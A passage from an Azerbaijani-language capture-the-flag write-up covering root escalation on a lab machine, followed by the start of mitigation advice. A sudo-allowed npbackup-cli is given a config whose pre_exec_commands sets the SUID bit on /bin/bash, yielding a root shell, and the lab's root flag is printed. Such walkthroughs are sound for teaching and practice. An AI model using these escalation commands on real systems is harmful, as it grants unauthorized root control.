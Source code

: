 * Yəni `marco` parolsuz olaraq `/usr/local/bin/npbackup-cli` proqramını `sudo` ilə istənilən parametrlə işlədə bilir.
* `npbackup-cli`-nin konfiqurasiya faylı tərkibi incələndi və içində belə bir parametr tapıldı:

```
pre_exec_commands: []
```

* Konfiqurasiya faylı kopyalanıb (`cp npbackup.conf root.conf`) və `pre_exec_commands` bölməsinə zərərli əmri əlavə edildi:

```yaml
pre_exec_commands: ["chmod 4755 /bin/bash"]
```

* `npbackup-cli` bu konfiq faylını oxuyub göstərilmiş `pre_exec_commands`-i `root` kontekstində icra edirsə, `/bin/bash` üçün SUID bitini (`4755`) qoymaq mümkün olur — nəticədə root olaraq SUID shell işə düşə bilər.

* Konfiq faylı ilə birlikdə `npbackup-cli` belə işə salındı:

```bash
sudo /usr/local/bin/npbackup-cli -c root.conf -b
```

* Əmrin uğurla işləməsi nəticəsində `/bin/bash`-in SUID olması təmin edildi:

```bash
ls -la /bin/bash
# -rwsr-xr-x 1 root root ... /bin/bash
```

* Sonra SUID bitli bash `-p` parametrilə işə salındı:

```bash
/bin/bash -p
```

* Bu komanda nəticəsində `root` privileges ilə `root` shell əldə edildi.

---

## 7. Root shell və `root.txt`

* `root` home direktoriyasına baxıldıqdan sonra `root.txt` faylı tapıldı və məzmunu submit olundu:

```
7ee19a338ef796eb192a388c50fa0732
```

---

## 8. Tövsiyələr / Mitigasiya

Bu test nəticəsində aşkar olunan zəifliklər və tövsiyə olunan tədbirlər:

1. **`js2py.eval_js` və digər `eval` istifadəni aradan qaldırın**

   * İstifadəçi girişlərini birbaşa `eval` və ya `exec`-ə ötürmək çox təhlükəlidir. Əgər dinamik kod icrası zərurətdirsə, güvənli sandboxing (izolyasiya) və qəti filtrasiya tətbiq edilməlidir.
